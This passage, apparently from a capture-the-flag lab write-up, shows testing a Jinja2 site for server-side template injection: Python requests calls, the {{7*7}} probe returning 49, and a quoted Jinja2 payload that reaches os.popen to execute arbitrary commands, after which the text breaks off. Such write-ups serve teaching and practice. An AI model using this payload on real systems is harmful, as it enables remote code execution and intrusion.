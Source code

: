 I can test that this is the main site by sending a JSON payload to try
to change the site title. I'll drop into a Python shell:



    >>> import requests
    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": "0xdf.htb"})
    >>> print(resp.text)

        .md>
        <head>
        <title>0xdf.htb - Coming Soon</title>
        </head>
        <body> 
        </body>
        <.md>



It worked. I passed in "0xdf.htb", and that now shows up in the title.

### SSTI

#### Test

Because user-controller data is being passed into a rendered template,
this is likely going to be vulnerable to serverside template injection
(SSTI).

The standard check for this is a payload like `{{7*7}}`. I'll try that:



    >>> resp = requests.post('http://10.10.11.131/', json={"siteurl": "{{7*7}}"})
    >>> print(resp.text)

        .md>
        <head>
        <title>49 - Coming Soon</title>
        </head>
        <body> 
        </body>
        <.md>



The server saw `{{7*7}}` and interpreted the `7*7` as code it should
evaluate, and returned 49.

#### POC

A more interesting POC would to try to run system commands. HackTricks
has a nice page on SSTI, and in the [Jinja2
section](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python)
has this example to execute commands:



    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
